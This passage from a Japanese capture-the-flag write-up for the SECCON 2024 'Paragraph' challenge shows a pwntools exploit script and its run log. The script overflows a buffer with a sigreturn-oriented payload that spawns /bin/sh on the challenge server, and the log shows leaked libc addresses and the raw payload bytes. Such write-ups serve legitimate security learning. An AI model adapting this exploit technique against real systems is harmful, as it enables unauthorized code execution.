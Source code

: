 ```python
sigret_frame.rdi = binsh
sigret_frame.rsi = 0
sigret_frame.rdx = 0
sigret_frame.rip = mod_rax + 6

phrase1 = b" answered, a bit confused.\n\"Welcome to SECCON,\" the cat greeted "
payload = \
    b"A" * 0x28 \
    + p64(mod_rax) \
    + bytes(sigret_frame)
phrase2 = b" warmly.\nl"

print(f"[!] payload: {payload}")

payload = phrase1 + payload + phrase2

sock.sendline(payload)

sock.interactive()
```

実行するとこんな感じ.
```
[+] Opening connection to paragraph.seccon.games on port 5000: Done

[!] Could not populate PLT: No module named 'distutils'
[*] '/ctf/2024/seccon/Paragraph/libc.so.6'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
[!] Could not populate PLT: No module named 'distutils'
[*] '/ctf/2024/seccon/Paragraph/chall'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
[*] Loaded 111 cached gadgets for './libc.so.6'
[;] Waiting...
[!] printf: 0x600f0
[!] scanf: 0x5fe00
[!] ret: 0x2a1ca
[!] printf got: 0x404028
[!] lower: 0x1e00
[!] glibc base: 0x7f1a502a2000
[!] payload: b"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!s.P\x1a\x7f\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00/\xd4FP\x1a\x7f\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00;\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00's.P\x1a\x7f\x00\x00\x00\x00\x00\x00\x00\x00\x00\x003\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00"
[*] Switching to interactive mode
```
